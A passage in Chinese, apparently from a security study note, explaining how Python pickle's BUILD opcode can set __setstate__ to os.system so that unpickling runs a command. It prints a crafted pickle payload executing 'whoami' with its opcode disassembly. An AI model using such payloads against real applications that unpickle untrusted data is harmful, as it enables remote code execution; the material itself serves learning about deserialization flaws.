回顾一下它的作用：使用栈中的第一个元素（储存多个 属性名-属性值 的字典）对第二个元素（对象实例）进行属性/方法的设置。既然可以设置实例的方法，那么能不能设置一个方法让它在反序列化的时候自动运行呢？什么方法会在反序列化的时候自动运行，答案是上面提到的 `__setstate__()`。

所以，我们只需要令 `__setstate__ = os.system`，再把参数传入即可：

```
b'\x80\x03c__main__\nexp_demo\n)\x81}X\x0c\x00\x00\x00__setstate__cnt\nsystem\nsbVwhoami\nb.'
    0: \x80 PROTO      3
    2: c    GLOBAL     '__main__ exp_demo'
   21: )    EMPTY_TUPLE
   22: \x81 NEWOBJ
   23: }    EMPTY_DICT
   24: X    BINUNICODE '__setstate__'
   41: c    GLOBAL     'nt system'
   52: s    SETITEM
   53: b    BUILD
   54: V    UNICODE    'whoami'
   62: b    BUILD
   63: .    STOP
highest protocol among opcodes = 2
修改步骤就是在自动生成的payload上第一次b构建完成后，此时__setstate__已经不再是None，只需再次构建传进参数即可调用到__setstate__。
```

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20231018002948755.png)
